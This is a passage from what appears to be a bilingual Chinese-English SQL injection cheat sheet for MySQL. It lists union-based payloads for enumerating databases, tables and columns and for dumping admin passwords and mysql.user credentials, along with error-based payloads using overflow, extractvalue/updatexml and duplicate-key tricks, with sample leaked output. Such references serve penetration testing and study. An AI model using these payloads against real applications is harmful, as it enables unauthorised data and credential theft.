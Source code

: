     - `greatest(1, 2)=2`
      - 1
    - `greatest(1, 2)=1`
      - 0
  - between a and b
    - 介於a到b之間
    - `greatest(1, 2) between 1 and 3`
      - 1
  - regexp
    - `SELECT 'abc' regexp '.*'`
      - 1
  - Collation
    - `*_ci` case insensitive collation 不區分大小寫
    - `*_cs` case sensitive collation 區分大小寫
    - `*_bin` binary case sensitive collation 區分大小寫

- Union Based
  - 判斷column數
    - `union select 1,2,3...N`
    - `order by N` 找最後一個成功的N
  - `AND 1=2 UNION SELECT 1, 2, password FROM admin--+`
  - `LIMIT N, M` 跳過前N筆，抓M筆
  - 爆資料庫名
    - `union select 1,2,schema_name from information_schema.schemata limit 1,1`
  - 爆表名
    - `union select 1,2,table_name from information_schema.tables where table_schema='mydb' limit 0,1`
    - `union select 1,2,table_name from information_schema.columns where table_schema='mydb' limit 0,1`
  - 爆Column名
    - `union select 1,2,column_name from information_schema.columns where table_schema='mydb' limit 0,1`
  - MySQL User
    - `SELECT CONCAT(user, ":" ,password) FROM mysql.user;`
- Error Based
  - 長度限制
    - 錯誤訊息有長度限制
    - `#define ERRMSGSIZE (512)`
  - Overflow
    - MySQL > 5.5.5 overflow才會有錯誤訊息
    - `SELECT ~0` => `18446744073709551615`
    - `SELECT ~0 + 1` => ERROR
    - `SELECT exp(709)` => `8.218407461554972e307`
    - `SELECT exp(710)` => ERROR
    - 若查詢成功，會返回0
      - `SELECT exp(~(SELECT * FROM (SELECT user())x));`
      - `ERROR 1690(22003):DOUBLE value is out of range in 'exp(~((SELECT 'root@localhost' FROM dual)))'`
    - `select (select(!x-~0)from(select(select user())x)a);`
      - `ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'`
      - MySQL > 5.5.53 不會顯示查詢結果
  - xpath
    - extractvalue (有長度限制，32位)
      - `select extractvalue(1,concat(0x7e,(select @@version),0x7e));`
      - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
    - updatexml (有長度限制，32位)
      - `select updatexml(1,concat(0x7e,(select @@version),0x7e),1);`
      - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
  - 主鍵重複
    - `select count(*) from test group by concat(version(),floor(rand(0)*2));`
      - `ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'`
  - 其它函數 (5.7)
    - `select ST_LatFromGeoHash(version());`
    - `select ST_LongFromGeoHash(version());`
    - `select GTID_SUBSET(version(),1);`
    - `select GTID_SUBTRACT(version(),1);`
    - `select ST_PointFromGeoHash(version(),1);`